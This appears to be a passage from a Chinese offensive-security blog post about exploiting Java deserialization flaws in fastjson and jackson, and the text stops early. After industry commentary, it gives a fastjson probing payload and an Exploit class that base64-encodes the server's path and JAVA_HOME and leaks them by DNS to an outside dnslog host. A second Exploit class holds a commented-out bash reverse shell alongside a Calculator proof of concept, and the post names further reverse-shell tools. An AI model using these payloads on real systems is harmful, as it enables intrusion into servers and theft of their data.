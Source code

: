 [TOC]

## 牌桌

攻和防的挑战和应战是安全团队兴衰的核心力量，一个组织如果可成功应对挑战，那么技术能力就会提升起来，否则组织就会走向衰落和解体。Azimuth、Vupen这类创业公司的兴起代表着现有的复杂局势在于专业化的混合手段攻击、自动攻击、工具链集成化。笔者注意到奇安信方面最近也提到了四化：对手组织化、环境云化、目标数据化和防护实战化。

1. 对手组织化，就是对手从普通的网络犯罪变成了组织化的攻击，攻击方式从通用攻击转向了专门定向攻击；
2. 环境云化，新一代信息技术的全面应用，带来了信息化和信息系统的云化，典型特征是终端智能、应用系统、IT设施的全面云化；
3. 目标数据化，新一代信息化建设以数据共享为基础，“数据”在经济社会中的价值越来越高，数据和业务应用成为网络攻击的重要目标；
4. 防护实战化，面对新的安全形势和安全环境，安全防护体系建设从合规导向转向能力导向，网络安全防护和监管都转向关注实战化，实网攻防演习成为常态化手段。

这个趋势很准确，安全工作的得分要求立足于APT才好，想着目标只是防护SRC的白帽子小朋友就是设立的标准太低，别整天盯着国内互联网的朋友圈。创造就是欢乐，本文提出了一种兼容反序列漏洞利用后期阶段的跨平台多协议前锋马。：）

## 整牌

> 要冷静—绝不要动作快—停下来想一想-这里执行渗透攻击的规则。如果件件遵守，就绝不会出乱子。


回想下遇到反序列化漏洞时的日常操作：首先通过java的InetAddress判断是否是fastjson或jackson踩点。

```java
{"@type":"java.net.InetAddress","val":"g.cn"}
```

确认后打POC，根据返回的java UA显示精心选择与服务器端JDK版本一致的class，通过RMI或者LDAP协议适配Exploit.class，首先回显dnslog返回确认是否利于成功，

```java
public Exploit() throws Exception {

    StringBuffer sb = new StringBuffer(new File(".").getCanonicalPath());
    sb.append(System.getenv("JAVA_HOME"));
    String pwd = new BASE64Encoder().encode(sb.toString().getBytes());
    pwd = pwd.replaceAll("\\n", "");
    String domain = pwd + ".x1382.ceye.io";
    try {
        InetAddress ip = InetAddress.getByName(domain);
    } catch (UnknownHostException e) {
       // e.printStackTrace();
    }

}
```

确认存在漏洞执行第二遍POC，在win平台使用下powershell、dnscat2、regsvr32，linux下awk、管道、重定向等反弹shell方法获取权限。

```java
public Exploit() throws Exception {
    try {
        Runtime r = Runtime.getRuntime();
       // Process p = r.exec(new String[]{"/bin/bash","-c","bash -i >& /dev/tcp/ip/port 0>&1"});
        Process p = r.exec(new String[]{"open","/Applications/Calculator.app/"});
        p.waitFor();
    } catch (IOException e) {
        e.printStackTrace();
    } catch (InterruptedException e) {
        e.printStackTrace();
    }
}
```
